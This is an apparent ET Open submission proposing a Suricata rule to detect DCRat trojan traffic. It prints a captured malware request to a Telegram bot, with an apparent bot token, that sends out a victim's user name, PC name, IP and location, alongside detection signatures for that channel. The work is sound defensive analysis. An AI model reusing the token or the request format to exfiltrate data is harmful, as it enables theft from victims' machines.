 # ET Open Submission
### January 9th, 2023
### DCRat Activity Detected


## Resources

1. https://tria.ge/230107-eynj2acf87/behavioral2
2. https://tria.ge/230107-fa3jqagb8t/behavioral3
3. https://app.any.run/tasks/f314829e-d378-445d-8749-43a465121737/


If I don't have anything here just let me know.

This [triage](https://tria.ge/230107-fa3jqagb8t/behavioral3) run for DCRat fired an older rule of **2034194**

```alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE DCRAT Activity (GET)"; flow:established,to_server; http.method; content:"GET"; http.uri; content:".php?"; content: "&"; pcre: "/^(?:[a-f0-9]{2}){16}=(?:[a-f0-9]{2}){16}&(?:[a-f0-9]{2}){16}=(?=[a-z0-9A-Z]{0,32}[A-Z][a-z][A-Z][a-z][A-Z])/R"; http.header_names; content:"|0d 0a|Accept|0d 0a|Content-Type|0d 0a|User-Agent|0d 0a|Host|0d 0a|Connection|0d 0a 0d 0a|"; bsize:56; fast_pattern; reference:url,twitter.com/James_inthe_box/status/1448751827046985746; reference:md5,60cf8c1093d596a44dc997d00caae463; classtype:trojan-activity; sid:2034194; rev:2; metadata:attack_target Client_Endpoint, created_at 2021_10_15, deployment Perimeter, former_category MALWARE, signature_severity Major, updated_at 2021_10_15;)```

This newer [triage](https://tria.ge/230107-eynj2acf87/behavioral2) instance I found and re-ran did not trip anything but some informational alerts.

This is why I wrote a new signature to detect on the client>server pattern I keep seeing.

```
/bot5861146625:AAEHo1wi939JhVuLzstg9mWqpsc_ntWfbTQ/sendPhoto?chat_id=5058531872&caption=%E2%9D%95%20User%20connected%20%E2%9D%95%0A%E2%80%A2%20ID%3A%20a683d399ec4da81b2f69cbd3e01b93a58b431a4e%0A%E2%80%A2%20Comment%3A%2025.12-26.12%0A%0A%E2%80%A2%20User%20Name%3A%20Admin%0A%E2%80%A2%20PC%20Name%3A%20TMKNGOMU%0A%E2%80%A2%20OS%20Info%3A%20Windows%2010%20Pro%0A%0A%E2%80%A2%20IP%3A%20154.61.71.13%0A%E2%80%A2%20GEO%3A%20NL%20%2F%20Aalsmeerderbrug%0A%0A%E2%80%A2%20Working%20Directory%3A%20C%3A%5CUsers%5CAll%20Users%5CDesktop%5Cservices.exe
```

Once decoded an human readable, they always seem to come out very similar.

```
/bot5861146625:AAEHo1wi939JhVuLzstg9mWqpsc_ntWfbTQ/sendPhoto?chat_idP58531872&caption=❕ User connected ❕
• ID: a683d399ec4da81b2f69cbd3e01b93a58b431a4e
• Comment: 25.12-26.12

• User Name: Admin
• PC Name: TMKNGOMU
• OS Info: Windows 10 Pro

• IP: 154.61.71.13
• GEO: NL / Aalsmeerderbrug

• Working Directory: C:\Users\All Users\Desktop\services.exe
```

I generated a Flowsynth PCAP and built a signature based on it since the TLS was causing strange issues in the triage PCAP.

## Signature

```alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"ET MALWARE DCRAT Activity"; flow:established,to_server; http.uri; content:"/bot"; startswith; content:"/sendPhoto?chat_id="; within:75; pcre:"/^\/bot[0-9]{9}/"; pcre:"/chat_id=[0-9]{9,10}/"; http.host; content:"api.telegram.org"; reference:url,https://tria.ge/230107-eynj2acf87/behavioral2; classtype:trojan-activity; sid:1; rev:1;)```

[Flowsynth PCAP](flowsynth.pcap)

[Re-Ran Full PCAP](raran-full.pcapng)

[Old Run PCAP](old-run.pcapng)

[Dalton Instance](https://dalton.centraliowacybersec.com)
